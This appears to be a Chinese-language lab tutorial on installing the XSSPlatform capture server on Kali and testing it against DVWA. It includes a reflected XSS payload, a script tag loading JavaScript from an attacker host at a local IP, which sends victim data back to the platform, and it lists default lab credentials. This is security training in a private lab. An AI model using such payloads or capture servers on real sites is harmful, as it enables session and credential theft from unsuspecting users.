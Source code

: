 XSS 靶场。

## 1 环境搭建

安装依赖

```
┌──(root㉿Kali-24)-[~]
└─# apt -y install lsb-release apt-transport-https ca-certificates
```

下载 PHP 软件包的数字签名

```
┌──(root㉿Kali-24)-[~]
└─# wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
```

添加 php 源

```
┌──(root㉿Kali-24)-[~]
└─# echo "deb https://packages.sury.org/php/ buster main" >/etc/apt/sources.list.d/php.list
```

获取更新列表

```
┌──(root㉿Kali-24)-[~]
└─# apt update
```

下载 libffi6_3.2.1-9_amd64.deb

```
┌──(root㉿Kali-24)-[~]
└─# wget http://ftp.us.debian.org/debian/pool/main/libf/libffi/libffi6_3.2.1-9_amd64.deb
```

> http://ftp.us.debian.org/debian/pool/main/libf/libffi/

安装 libffi6

```
┌──(root㉿Kali-24)-[~]
└─# dpkg -i libffi6_3.2.1-9_amd64.deb
```

安装 php7.4

```
┌──(root㉿Kali-24)-[~]
└─# apt install -y php7.4-fpm php7.4-mysql
```

使 php7.4 开机自启

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now php7.4-fpm.service
```

上传 nginx 配置文件 xuegodxss，移动站点启用目录中

```
┌──(root㉿Kali-24)-[~]
└─# mv xuegodxss /etc/nginx/sites-enabled/
```

修改配置文件 xuegodxss

```
┌──(root㉿Kali-24)-[~]
└─# sed -i 's/server_name xuegodxss\.cn;/server_name 192.168.1.24;/g' /etc/nginx/sites-enabled/xuegodxss
```

启动 nginx 服务

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now nginx.service
```

下载 XSSPlatform

```
┌──(root㉿Kali-24)-[~]
└─# git clone https://github.com/78778443/xssplatform.git
```

> 使用代理记得移除

移动 XSS 平台到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# mv xssplatform /var/www/html/xssplatform
```

修改文件权限

```
┌──(root㉿Kali-24)-[~]
└─# chown www-data:www-data -R /var/www/html
```

kali 浏览器访问

> http://192.168.1.24/

配置数据库连接信息和管理员账户

| 配置       | 信息        |
| ---------- | ----------- |
| 数据库地址 | 127.0.0.1   |
| 数据库用户 | root        |
| 数据库密码 | mysql       |
| 数据库     | xssplatfrom |
| 管理员     | admin       |
| 管理员密码 | admin       |

## 2 基本使用

启动 Nginx

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start nginx.service
```

登录

>http://192.168.1.24/
>
>管理员  	admin
>管理员密码	admin

查看代码

![查看代码](./../../../../images/XSS%20Platform/%E6%9F%A5%E7%9C%8B%E4%BB%A3%E7%A0%81.png)

> XSS 平台提供一个 js 代码，只需要通过 XSS 加载 js 代码即可使用，和 beef-xss 非常像

选择代码

![选择代码](./../../../../images/XSS%20Platform/%E9%80%89%E6%8B%A9%E4%BB%A3%E7%A0%81.png)

```
<script src=http://192.168.1.24/Q7yYOv?1687665509></script>
```

登录 DVWA

> http://192.168.1.76/DVWA/

> admin
>
> password

进入 `XSS (Reflected)`

提交代码

查看地址栏

```
http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3Cscript+src%3Dhttp%3A%2F%2F192.168.1.24%2FQ7yYOv%3F1687665509%3E%3C%2Fscript%3E#
```

在 XSS 平台查看接受的内容

![在 XSS 平台查看接受的内容](./../../../../images/XSS%20Platform/%E5%9C%A8%20XSS%20%E5%B9%B3%E5%8F%B0%E6%9F%A5%E7%9C%8B%E6%8E%A5%E5%8F%97%E7%9A%84%E5%86%85%E5%AE%B9.png)

---

参考链接

- [XSS Platform](https://github.com/78778443/xssplatform)